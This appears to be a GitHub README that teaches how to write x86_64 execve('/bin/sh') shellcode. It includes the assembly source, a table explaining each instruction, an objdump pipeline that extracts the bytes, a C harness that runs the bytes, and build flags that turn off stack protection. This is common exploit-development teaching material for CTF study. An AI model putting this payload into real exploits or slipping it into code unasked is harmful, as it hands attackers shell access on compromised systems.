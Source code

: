 # Execve Syscall Technique (Gaining Shell)

The `execve` syscall is a low-level technique used to spawn a shell by directly interacting with the Linux kernel. This method bypasses standard libraries and executes `/bin/sh` by invoking `execve("/bin/sh", NULL, NULL)`. It's a common approach in exploit development and shellcode crafting, often used in Capture The Flag (CTF) challenges, red teaming, and post-exploitation scenarios.

This repository contains minimal examples in C and Assembly to demonstrate how syscall-level shell spawning works and why understanding such techniques is important in modern cybersecurity practices.

---

## 🔍 How It Works

- The Linux system call number for `execve` is typically `59` on x86_64.
- The syscall takes three arguments:
  - `const char *filename` → path to binary (`/bin/sh`)
  - `char *const argv[]` → arguments (can be NULL for simple shells)
  - `char *const envp[]` → environment variables (can also be NULL)

By preparing the correct values in registers and invoking the syscall interrupt (`syscall` on x86_64, `int 0x80` on x86), a new shell process is spawned.

---

## 🛠️ Requirements

- Linux OS (preferably Debian/Ubuntu or Kali)
- GCC or NASM (for compiling C or Assembly)
```
sudo apt update
sudo apt install nasm
```

- Basic understanding of Linux system calls and syscall registers

---

c program:
```c
#include <stdio.h>
#include <string.h>

int main() {

	unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
	printf("shellcode length: %zu\n", strlen((const char*)shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
}
```

---

## 🧬 String Encoding Example (For Shellcode)

- The string "/bin/sh" is reversed and then encoded in hexadecimal for use in memory-safe or register-safe environments. 
- This is often seen in Assembly-based exploits, where certain characters (like null bytes) must be avoided.

```python
python2
Python 2.7.18 (v2.7.18:8d21aa21f2, Apr 19 2020, 20:48:48) 
[GCC 4.2.1 Compatible Apple LLVM 6.0 (clang-600.0.57)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> string = '//bin/sh'
>>> string
'//bin/sh'
>>> encode_string = string[::-1].encode('hex')
>>> encode_string
'68732f6e69622f2f'
>>> 
```


## What’s Happening?

- string[::-1]: Reverses the string to hs/nib//.
- This is because in Assembly (especially on x86), strings are often pushed to the stack in reverse order to appear correctly in memory.
- .encode('hex'): Converts the reversed string into its hexadecimal byte representation, which is easier to load into registers or memory during exploit development.
    
---

## 🧵 Shellcode Walkthrough (Assembly - execve) execve.asm

```asm
global _start
section .text

_start:
    xor rax, rax              ; Clear rax (rax = 0)
    push rax                  ; Push NULL (null terminator for string)
    mov rdx, rsp              ; Set rdx (envp) = NULL

    mov rbx, 0x68732f6e69622f2f  ; Load "//bin/sh" in reverse (little-endian)
    push rbx                  ; Push string onto the stack

    mov rdi, rsp              ; Set rdi = pointer to "/bin/sh"
    push rax                  ; Push NULL (argv terminator)
    push rdi                  ; Push pointer to "/bin/sh" into argv
    mov rsi, rsp              ; Set rsi = argv (["/bin/sh", NULL])

    add rax, 59               ; Syscall number for execve (59)
    syscall                   ; Trigger syscall: execve("/bin/sh", argv, envp)

```

---

| Instruction                   | Description                                                       |
| ----------------------------- | ----------------------------------------------------------------- |
| `xor rax, rax`                | Clears the `rax` register. Used to push NULL and prepare syscall. |
| `push rax`                    | Pushes a NULL terminator onto the stack (`\x00`).                 |
| `mov rdx, rsp`                | Sets `rdx` to point to NULL → the `envp` argument of `execve`.    |
| `mov rbx, 0x68732f6e69622f2f` | Loads the reversed hex for `//bin/sh` into `rbx`.                 |
| `push rbx`                    | Places the `//bin/sh` string on the stack.                        |
| `mov rdi, rsp`                | `rdi` now points to the `/bin/sh` string.                         |
| `push rax`                    | NULL terminator for `argv`.                                       |
| `push rdi`                    | Push pointer to `/bin/sh` into the stack to build `argv`.         |
| `mov rsi, rsp`                | `rsi` now points to `argv` → `["/bin/sh", NULL]`.                 |
| `add rax, 59`                 | Sets `rax = 59`, which is the syscall number for `execve`.        |
| `syscall`                     | Executes the syscall → spawns a shell.                            |


---

## 💡 Why Use //bin/sh Instead of /bin/sh?

Using //bin/sh instead of /bin/sh has no effect on the functionality in Unix-like systems, but it allows the string to be aligned perfectly into 8 bytes and avoids null bytes (\x00). This is a common trick in shellcode crafting to keep the payload compact and safe for injection.

---


## Compiling Assembly

```bash
lynk@Linux ~/a/execve-syscall> nasm -f elf64 execve.asm -o execve.o
lynk@Linux ~/a/execve-syscall> ld execve.o -o execve
lynk@Linux ~/a/execve-syscall> ./execve 
$ 

```
---


## now we will convert this into shell code:

```bash
lynk@Linux ~/a/execve-syscall> ls
a.out*  bash*  bash-shell.c  execve*  execve.asm  execve.o  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
lynk@Linux ~/a/execve-syscall> 

```

```\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05```

```objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s```


---

## 🧨 Shellcode Execution in C
The following C program demonstrates how to execute raw shellcode that invokes the execve("/bin/sh", NULL, NULL) syscall. The shellcode is written in x86_64 machine code and stored as a string of hex bytes.

```c
#include <stdio.h>
#include <string.h>

int main() {

	unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
	printf("shellcode length: %zu\n", strlen((const char*)shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
}


```
---

## 🔍 How It Works:

- The shellcode constructs the "/bin/sh" string on the stack.

- It sets up the required arguments for the execve syscall (rax = 59, rdi = /bin/sh, rsi = NULL, rdx = NULL).

- The syscall instruction then executes /bin/sh.
- 
---


## Now we will compile and run it........

```bash
lynk@Linux ~/a/execve-syscall> ls
bash*  bash-shell.c  execve*  execve.asm  execve.o  execve-shell.c  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> gcc -fno-stack-protector -z execstack execve-shell.c
lynk@Linux ~/a/execve-syscall> ls
a.out*  bash*  bash-shell.c  execve*  execve.asm  execve.o  execve-shell.c  r.md  sysinfo.c
lynk@Linux ~/a/execve-syscall> ./a.out 
shellcode length: 32
$ whoami
lynk
$ 

```
## Bang it worked............Some how............................;)

